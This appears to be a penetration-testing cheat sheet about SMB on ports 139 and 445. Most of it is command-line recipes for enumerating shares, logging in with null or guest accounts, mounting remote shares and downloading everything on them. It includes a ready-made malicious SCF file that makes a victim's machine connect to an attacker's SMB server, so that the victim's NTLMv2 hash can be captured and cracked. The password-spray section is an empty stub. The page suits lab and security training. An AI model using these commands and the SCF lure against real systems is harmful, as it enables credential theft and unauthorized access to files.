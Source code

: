 # SMB - 139/445

## SMB Information

### Port 139

Standing for Network Basic Input/Output System, NetBIOS is a networking industry standard developed by IBM, Microsoft, and Sytek. It is currently mostly used by Microsoft Windows operating systems to provide certain services to the other network hosts. NetBIOS provides services associated with the OSI model’s session layer, allowing applications on different computers to communicate over the local network. It also allows the proper transmission of data over the network. A NetBIOS name is up to 16 characters long and usually, separate from the computer name. Two applications start a NetBIOS session when one \(the client\) sends a command to “call” another client \(the server\) over **TCP Port 139**. 

Reference:

{% embed url="https://www.bitwarsoft.com/what-is-netbios.html" %}

### Port 445

While Port 139 is known technically as ‘NBT over IP’, Port 445 is ‘SMB over IP’. **SMB** stands for ‘**Server Message Blocks**’. Server Message Block in modern language is also known as **Common Internet File System \(cifs\)**. The system operates as an application-layer network protocol primarily used for offering shared access to files, printers, serial ports, and other sorts of communications between nodes on a network.

For instance, on Windows, SMB can run directly over TCP/IP without the need for NetBIOS over TCP/IP. This will use the port 445. On other systems, you’ll find services and applications using port 139. This means that SMB is running with NetBIOS over TCP/IP**.** 

### IPC$ Share

The IPC$ shares and interacts with other services via named pipes. The IPC$ share can contain the following information:

* Operating System 
* Parent Domain
* Local Users and Groups
* Available SMB shares
* Effective System Security Policies



## SMB List Shares <a id="smb-list-shares"></a>

### smbmap <a id="smbmap"></a>

List SMB shares permissions:

`smbmap -H 10.10.10.10`

### smbclient <a id="smbclient"></a>

List SMB shares with smbclient:

`smbclient -L 10.10.10.10`

### crackmapexec <a id="crackmapexec"></a>

List SMB shares with crackmapexec:

`crackmapexec smb 10.10.10.10 --shares`

### enum4linux <a id="enum4linux"></a>

List SMB shares with enum4linux:

`enum4linux 10.10.10.10`

## SMB Authentication <a id="smb-authentication"></a>

### smbmap <a id="smbmap-2"></a>

Authenticate to a domain controller SMB share with valid credentials:

`smbmap -d domain.name -u username -p password -H 10.10.10.10`

### smbclient <a id="smbclient-2"></a>

Authenticate as null:

`smbclient -U '' -L 10.10.10.10`

Authenticate as the guest user:

`smbclient -U 'guest' -L 10.10.10.10`

Authenticate as valid user \(type password on prompt\):

`smbclient -U 'username' -L 10.10.10.10`

### crackmapexec <a id="crackmapexec-2"></a>

Authenticate as null:

`crackmapexec smb 10.10.10.10 --shares -u '' -p ''`

Authenticate as a valid user with crackmapexec:

`crackmapexec smb 10.10.10.10 --shares -u username -p password`

## SMB Protocol Error Fix <a id="smb-connect-to-share"></a>

Error Code:

```text
protocol negotiation failed: NT_STATUS_CONNECTION_DISCONNECTED
```

Some servers have an OLD SMBv1 protocol in use, to accept the connection we must specify the minimum protocol version we can accept with:

```text
smbclient //$ip/share -N --option='client min protocol=NT1'
```

You can also add the following to `/etc/samba/smb.conf` under the `[global]` section:

```text
client min protocol = NT1
```

## SMB Capture NTLMv2 with SCF <a id="smb-connect-to-share"></a>

**SCF** \(Shell Command File\) are simple files that can be used to perform a connection to the attacker machine by using the **SMB** protocol. The interesting purpose of that kind of file is that they can perform a small and limited set of operations, but can be executed when the user will browse the file, without the explicit necessity to execute it.

The attacker can take profit from this vulnerability to make a request to his own machine and then get the NTLMv2 hash of the victim.

Create a shared folder and let it open:

```text
impacket-smbserver share $(pwd) -smb2support
```

1. Create the malicious SCF file

   ```text
   [Shell]
   Command=2
   IconFile=\\10.10.10.11\share\pentestlab.ico
   [Taskbar]
   Command=ToggleDesktop
   ```

2. Copy the malicious file in the desired victim shared resource

Check the shared folder that you have created previously and if there is an interaction between the victim and the file, you will receive the NTLMv2 hash of the victim. You can then try to crack the hash with **john or hashcat.**

## SMB Connect to Share <a id="smb-connect-to-share"></a>

### smbmap <a id="smbmap-3"></a>

Recursively list the the share:

`smbmap -R ShareName -H 10.10.10.10`

### smbclient <a id="smbclient-3"></a>

We can connect to share with following example:

`smbclient -L //10.10.10.10/ShareName`

## SMB Mount Share <a id="smb-mount-share"></a>

Create a directory to mount the share:

`sudo mkdir -p /mnt/smb`

Mount the remote share to your machines/host without credentials:

`sudo mount -t cifs //10.10.10.10/ShareName/ /mnt/smb`

Mount with valid credentials method:

`sudo mount -t cifs -o 'user=username,password=pass' //10.10.10.10/sharename$ /mnt/share`

## SMB Password Spray <a id="smb-password-spray"></a>

sudo crackmapexec

## SMB Usage Cheatsheet <a id="smb-usage-cheatsheet"></a>

Download all files recursively without prompts:

```text
smb: \> recurse ON
smb: \> prompt OFF
smb: \> mget *
```

